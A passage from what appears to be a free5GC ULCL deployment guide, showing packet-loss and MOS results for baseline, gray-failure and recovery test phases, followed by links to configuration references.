Estimated MOS : 2.00
PHASE 3 — Recovery (after healing)
--------------------------------------------------
Packets received : 583
Packets lost : 16
Packet loss : 2.67%
Average inter-arrival: 33.71 ms
Estimated MOS : 4.00
==================================================
OVERALL
==================================================
Packets received : 1843
Packets lost : 121
Packet loss : 6.16%
Average inter-arrival: 34.92 ms
Estimated MOS : 3.50| Phase | Pkts Received | Pkts Lost | Loss % | Avg Inter-arrival | MOS | Quality |
|---|---|---|---|---|---|---|
| Phase 1 — Baseline | 900 | 1 | 0.11% | 32.79 ms | 4.50 | Excellent |
| Phase 2 — Gray Failure | 360 | 104 | 22.41% | 42.25 ms | 2.00 | Poor |
| Phase 3 — Recovery | 583 | 16 | 2.67% | 33.71 ms | 4.00 | Good |
| Overall | 1843 | 121 | 6.16% | 34.92 ms | 3.50 | Fair |
Helpful Links
Reference documentation, configuration guides, and sample configurations used in this implementation.
| Resource | Description |
|---|---|
| free5GC User Guide | Official guide — building free5GC from scratch |
| SMF Config / ULCL | SMF userplane configuration reference including ULCL settings |
| ULCL Sample Config | free5GC & UERANSIM sample configuration for ULCL (Uplink Classifier) |
| ULCL — I-UPF + 2 PSA-UPFs | Sample config for ULCL with one I-UPF and two PSA-UPFs — the topology used in this guide |
| Misc Mobile Network Configs | Sample configurations and miscellaneous resources for mobile network setups |